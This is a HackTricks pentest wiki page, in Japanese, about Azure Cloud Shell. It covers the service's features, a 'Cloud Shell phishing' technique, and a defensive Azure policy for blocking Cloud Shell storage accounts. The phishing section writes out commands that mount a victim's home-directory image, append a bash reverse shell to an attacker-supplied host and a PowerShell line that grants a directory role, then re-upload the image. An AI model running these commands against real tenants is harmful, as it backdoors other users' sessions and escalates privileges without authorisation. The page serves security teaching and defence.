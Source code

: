 # Az - Cloud Shell

{{#include ../../../banners/hacktricks-training.md}}

## Azure Cloud Shell

**Azure Cloud Shell** は、Azure リソースを管理するために設計されたインタラクティブで認証されたブラウザアクセス可能なターミナルで、Bash または PowerShell のいずれかで作業する柔軟性を提供します。これは、20 分間の非アクティブ状態の後にタイムアウトする一時的なセッションホスト上で実行され、$HOME ロケーションに 5 GB のファイル共有を使用してファイルを保持します。Cloud Shell には、Azure ポータル、shell.azure.com、Azure CLI および PowerShell ドキュメント、Azure モバイルアプリ、Visual Studio Code Azure アカウント拡張機能など、複数のポイントからアクセスできます。

このサービスには権限が割り当てられていないため、特権昇格技術はありません。また、何らかの列挙もありません。

### 主な機能

- **プリインストールされたツール**: Cloud Shell には、Azure CLI、Azure PowerShell、Terraform、Docker CLI、Ansible、Git、vim、nano、emacs などの包括的なプリインストールツールセットが含まれています。これらのツールはすぐに使用できます。インストールされているパッケージやモジュールをリストするには、「Get-Module -ListAvailable」、「tdnf list」、「pip3 list」を使用できます。
- **Azure ドライブ (Azure:)**: Azure Cloud Shell の PowerShell には Azure ドライブ (Azure:) が含まれており、ファイルシステムのようなコマンドを使用して Compute、Network、Storage などの Azure リソースを簡単にナビゲートできます。cd Azure: で Azure ドライブに切り替え、cd ~ でホームディレクトリに戻ります。どのドライブからでもリソースを管理するために Azure PowerShell cmdlet を使用することもできます。
- **カスタムツールのインストール**: ストレージアカウントで Cloud Shell を構成するユーザーは、ルート権限を必要としない追加のツールをインストールできます。この機能により、Cloud Shell 環境のさらなるカスタマイズが可能になり、ユーザーは特定のニーズに合わせてセットアップを調整できます。
- **$HOME の永続性**: Azure Cloud Shell を初めて起動する際、ストレージアカウントを添付するかしないかを選択できます。
- ストレージを添付しないことを選択すると、セッションが終了するとファイルが削除される一時的なセッションが作成されます。
- セッション間でファイルを保持するには、**ストレージアカウントをマウントする**オプションが提供され、これが自動的に `$HOME\clouddrive` として添付され、あなたの `$HOME` ディレクトリは **ファイル共有内の .img ファイルとして保存されます。**

### Cloud Shell フィッシング

攻撃者がストレージアカウント内の他のユーザーの画像を見つけ、読み書きアクセスを持っている場合、彼は画像をダウンロードし、**bash と PS のバックドアを追加し**、再びストレージアカウントにアップロードすることができます。次回ユーザーがシェルにアクセスすると、**コマンドが自動的に実行されます**。

- **画像をダウンロードし、バックドアを追加してアップロードする:**
```bash
# Download image
mkdir /tmp/phishing_img
az storage file download-batch -d /tmp/phishing_img --account-name <acc-name>

# Mount image
cd /tmp/phishing_img/.cloudconsole
mkdir /tmp/cloudpoison
sudo mount acc_username.img /tmp/cloudpoison
cd /tmp/cloudpoison
sudo mkdir .config
sudo mkdir .config/PowerShell
sudo touch .config/PowerShell/Microsoft.PowerShell_profile.ps1
sudo chmod 777 .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Bash backdoor
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/${SERVER}/${PORT} 0>&1 &)' >> .bashrc

# PS backdoor
echo "Connect-AzureAD; Add-AzureADDirectoryRoleMember -ObjectId 1246bcfd-42dc-4bb7-a86d-3637ca422b21 -RefObjectId 1D8B2447-8318-41E5-B365-CB7275862F8A" >> .config/PowerShell/Microsoft.PowerShell_profile.ps1
cd /tmp

sudo umount /tmp/cloudpoison

# Upload image
az storage file upload --account-name <acc-name> --path ".cloudconsole/acc_username.img" --source "./tmp/phishing_img/.cloudconsole/acc_username.img"
```
- **次に、ユーザーをフィッシングして https://shell.azure.com/ にアクセスさせます。**

### Cloud Shell 自動ストレージアカウントを見つけて禁止する

Cloud Shell によって作成されたストレージアカウントは **`ms-resource-usage:azure-cloud-shell`** タグが付けられています。このタグを持つリソースの作成を無効にする Azure リソースポリシーを作成することが可能です。

タグによって Cloud Shell によって作成されたすべてのストレージアカウントを見つけます:
```bash
az storage account list --output json | jq '.[] | select(.tags["ms-resource-usage"]=="azure-cloud-shell")'
```
タグに基づいてクラウドシェルストレージの自動ストレージアカウントの作成を禁止するポリシー:
```json
{
displayName: "Restrict cloud shell storage account creation",
description: "Storage accounts that you create in Cloud Shell are tagged with ms-resource-usage:azure-cloud-shell. If you want to disallow users from creating storage accounts in Cloud Shell, create an Azure resource policy for tags that is triggered by this specific tag. https://learn.microsoft.com/en-us/azure/cloud-shell/persisting-shell-storage#restrict-resource-creation-with-an-azure-resource-policy",
metadata: {
category: "Storage",
version: "1.0.0"
},
mode: "All",
parameters: {
effect: {
type: "String",
metadata: {
displayName: "Effect",
description: "Deny, Audit or Disabled the execution of the Policy"
},
allowedValues: [
"Deny",
"Audit",
"Disabled"
],
defaultValue: "Audit"
}
},
policyRule: {
if: {
allOf: [
{
field: "type",
equals: "Microsoft.Storage/storageAccounts"
},
{
field: "tags['ms-resource-usage']",
equals: "azure-cloud-shell"
}
]
},
then: {
effect: "[parameters('effect')]"
}
}
}
```
## 参考文献

- [https://learn.microsoft.com/en-us/azure/cloud-shell/overview](https://learn.microsoft.com/en-us/azure/cloud-shell/overview)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/features](https://learn.microsoft.com/en-us/azure/cloud-shell/features)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window](https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window)


## 永続性

{{#ref}}
../az-persistence/az-cloud-shell-persistence.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
